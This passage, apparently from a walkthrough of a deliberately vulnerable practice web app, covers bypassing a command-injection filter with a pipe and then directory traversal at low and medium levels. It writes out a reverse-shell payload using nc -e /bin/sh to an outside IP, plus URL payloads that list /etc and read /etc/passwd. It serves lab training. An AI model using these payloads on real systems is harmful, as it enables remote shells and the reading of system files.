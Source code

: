 Now we have a bit of filtering. If we try to concatenate commands using `;` we'll get nothing. But we can do the same with `|`. So just replace `;` with `|` and it will do the job: `www.nsa.gov | nc -e /bin/sh 192.168.1.23 1234`.

## A7 - Missing Functional Level Access Control 

The missing function level access control vulnerability allows users to perform functions that should be restricted, or lets them access resources that should be protected. 

Normally, functions and resources are directly protected in the code or by configuration settings, but it's not always easy to do correctly. Implementing proper checks can be difficult because modern applications often contain many types of roles and groups, plus a complex user hierarchy.

### Directory Traversal - Directories

Once inside the directory of this vulnerability we can see some files. Taking a look to the URL we see that this files are in the `documents` directory. Our mission is to acess other directories that are not supposed to be accesible.

#### Low

This is the last part of the URL: `/directory_traversal_2.php?directory=documents`. It shows we are in the `documents` directory. Now, let's try to change `documents` for another directory: `/etc`.

As soon as we change it and hit `Enter`, we can see the files inside the `/etc` directory.

![Directory Traversal /etc](dt-etc.png)

#### Medium

Same as before: `/directory_traversal_2.php?directory=/root`

### Directory Traversal - Files

*Try to climb higher Spidy...*

#### Low

This is the last part of the URL: `/directory_traversal_1.php?page=/etc/passwd`. THe page displays a message that, according to the URL is written in a document: `message.txt`. Now, let's try to change it to another document: `/etc/passwd`.

As soon as we change it and hit `Enter`, we can see the content inside the `/etc/passwd` file.

![Directory Traversal /etc/passwd](dt-etc-passwd.png)

#### Medium

Same as before but let's try to read other user's files: `/directory_traversal_1.php?page=/home/ftp/welcome.msg`

![Directory Traversal /home/ftp/welcome.msg](dt-home-ftp-welcome.png)

### Local File Inclusion
